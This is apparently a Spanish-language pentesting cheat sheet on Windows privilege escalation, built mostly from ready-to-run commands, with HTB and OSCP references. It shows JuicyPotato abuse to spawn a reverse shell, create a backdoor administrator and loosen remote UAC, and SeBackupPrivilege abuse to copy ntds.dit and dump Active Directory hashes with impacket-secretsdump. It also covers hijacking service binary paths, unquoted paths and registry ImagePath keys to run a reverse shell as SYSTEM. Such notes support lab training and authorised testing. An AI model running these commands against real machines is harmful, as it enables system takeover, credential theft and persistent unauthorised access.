 ## Windows Privilege Escalation

Técnicas utilizadas para escalar privilegios en sistemas basados en Windows.

### Recursos

[Hacktricks - Windows Privesc Checklist](https://book.hacktricks.xyz/windows/checklist-windows-privilege-escalation)

[Payload All The Things - Windows Privesc Cheat Sheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md)

[Sushant Guide OSCP](https://sushant747.gitbooks.io/total-oscp-guide/content/privilege_escalation_windows.html)

[Another good guide](https://vulp3cula.gitbook.io/hackers-grimoire/post-exploitation/privesc-windows)


### Técnicas comúnes para escalar privilegios 


- [Abusing Tokens](#whoami-priv)
  - [SeImpersonatePrivilege](#SeImpersonatePrivilege)
  - [SeBackupPrivilege & SeRestorePrivilege](#SeBackupPrivilege-And-SeRestorePrivilege)
- [Privileged Groups](#whoami-groups)
- [Servicios Vulnerables](#Servicios-Vulnerables)
  - [Insecure Permissions](#Insecure-Permissions)
  - [Unquoted Service Path](#Unquoted-Service Path)
  - [Weak Registry Permissions](#Weak-Registry Permissions)

## whoami priv

[Hacktricks Guide](https://book.hacktricks.xyz/windows/windows-local-privilege-escalation/privilege-escalation-abusing-tokens)

**Lista de Tokens de Acceso interesantes**

|Privilege|Privilege|
|--|--|
|**SeImpersonatePrivilege**|**SeAssignPrimaryPrivilege**|
|**SeTcbPrivilege**|**SeBackupPrivilege**|
|**SeRestorePrivilege**|**SeCreateTokenPrivilege**|
|**SeLoadDriverPrivilege**|**SeTakeOwnershipPrivilege**|
|**SeDebugPrivilege**||

### SeImpersonatePrivilege

#### Mediante una Reverse Shell

**Tool**: JuicyPotato.exe 
```cmd
.\jp.exe -t * -l 1333 -p "c:\windows\system32\cmd.exe" -a "/c c:\windows\temp\rev.exe" -c <clsid> (optional)
```
#### Creando nuestro propio usuario
```cmd
.\jp.exe -t * -l 1333 -p "c:\windows\system32\cmd.exe" -a "/c net user chan chan123 /ADD"
```
**Agregándo nuestro usuario al grupo Local Administrators**
```cmd
.\jp.exe -t * -l 1333 -p "c:\windows\system32\cmd.exe" -a "/c net localgroup Administrators chan /add" 
```
**Cambiando el registro LocalAccountTokenFilterPolicy para poder tener acceso remoto**
```cmd
.\jp.exe -t * -l 1333 -p "c:\windows\system32\cmd.exe" -a "/c reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\system /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f" 
```
 
### SeBackupPrivilege And SeRestorePrivilege

**Crear una lista de instrucciones que serán ejecutadas con Diskshadow (Herramienta de gestión de discos)**

```bash
SET CONTEXT PERSISTENT NOWRITERS#
add volume c: alias chan#
create#
expose %chan% z:#
```
**Lo subimos a nuestro target y ejecutamos**
```cmd
diskshadow /s fichero_instrucciones.txt
```

**Luego subimos e importamos dos Dlls que nos servirán para copiar archivos entre discos**

[Dlls utilizados](https://github.com/giuliano108/SeBackupPrivilege/tree/master/SeBackupPrivilegeCmdLets/bin/Debug)

```powershell
Import-Module .\SeBackupPrivilegeUtils.dll
Import-Module .\SeBackupPrivilegeCmdLets.dll
```

**Copiamos el ntds.dit (Base de datos que almacena hashes del AD)**
```powershell
Copy-FileSeBackupPrivilege z:\windows\NTDS\ntds.dit c:\temp\ntds.dit
```
**Guardamos la llave system del registro de windows**
```powershell
reg save HKLM/SYSTEM c:\temp\system
```
**Dumpeamos los hashes con impacket-secretsdump y voila**
```bash
impacket-secretsdump -ntds ndts.dit -system system -hashes lmhash:nthash LOCAL
```

## whoami groups

[Guía detallada](https://book.hacktricks.xyz/windows/active-directory-methodology/privileged-accounts-and-token-privileges)

### Dns admins

***HTB Machine*** : **Resolute**


## Servicios Vulnerables

**Obtener lista de servicios**

```cmd
net start
wmic service list brief
sc query
Get-Service
```
**Obtener permisos del servicio**

```cmd
sc qc <service_name>
accesschk.exe -ucqv <Service_Name> #Check rights for different groups
```

**Ver si Authenticated Users pueden modificar el servicio**

```cmd
accesschk.exe -uwcqv "Authenticated Users" * /accepteula
accesschk.exe -uwcqv %USERNAME% * /accepteula
accesschk.exe -uwcqv "BUILTIN\Users" * /accepteula 2>nul
accesschk.exe -uwcqv "Todos" * /accepteula ::Spanish version
```

### Insecure Permissions

**Podemos usar accesschk.exe para verificar los permisos del usuario actual sobre un servicio en específico**
```cmd
.\accesschk.exe /accepteula -uwcqv <user> daclsvc
```
**En caso de tener el permiso `SERVICE_CHANGE_CONFIG` podemos aprovecharnos y modificar la propiedad `BINARY_PATH_NAME`**

Es necesario consultar si el servicio corre como SYSTEM mirando la propiedad `SERVICE_START_NAME`
```cmd
sc qc daclsvc
```
Modificamos la configuración del servicio y establecemos el BINARY_PATH_NAME (binpath) al de una reverse shell o un binario que queramos ejecutar

```cmd
sc config daclsvc binpath= "C:\tmp\reverse.exe"
```
Ponemos un socket de escucha e iniciamos el servicio

```cmd
net start daclsvc
```

### Unquoted Service Path 

[Explicación](https://medium.com/@SumitVerma101/windows-privilege-escalation-part-1-unquoted-service-path-c7a011a8d8ae#:~:text=When%20a%20service%20is%20created,of%20the%20time%20it%20is)


**Primero debemos verificar que el servicio está corriendo como SYSTEM observando la propiedad `SERVICE_START_NAME` y también checkear si el nombre tiene espacios en el path mirando la propiedad `BINARY_PATH_NAME` **

```cmd
sc qc unquotedsvc
```

**Luego verificamos los permisos de la carpeta donde se ubica el binario real**
```cmd
.\accesschk.exe /accepteula -uwdq "C:\Program Files\Unquoted Path Service\"
icacls "C:\Program Files\A Subfolder"
```
**Ahora copiamos la reverse shell en el folder final donde se situaba el binario**

```cmd
copy C:\PrivEsc\reverse.exe "C:\Program Files\Unquoted Path Service\Common.exe"
```

**Iniciamos el servicio**
```cmd
net start unquotedsvc
```

### Weak Registry Permissions

Consultamos el servicio `regsvc` y verificamos si está corriendo como SYSTEM (`SERVICE_START_NAME`).
```cmd
sc qc regsvc
```
Verificamos si el servicio es writable por algun grupo al que pertenezcamos, si sale `NT_AUTHORITY\Interactive` quiere decir que es modificable por cualquier usuario logueado.

```cmd
C:\PrivEsc\accesschk.exe /accepteula -uvwqk HKLM\System\CurrentControlSet\Services\regsvc
```

Sobrescribimos la llave del registro ImagePath para que apunte al ejecutable reverse.exe que hemos creado

```cmd
reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d C:\PrivEsc\reverse.exe /f
```
Iniciamos un listener en Parrot y luego iniciamos el servicio para generar una shell reversa que se ejecute con privilegios de SYSTEM

```cmd
net start regsvc
```




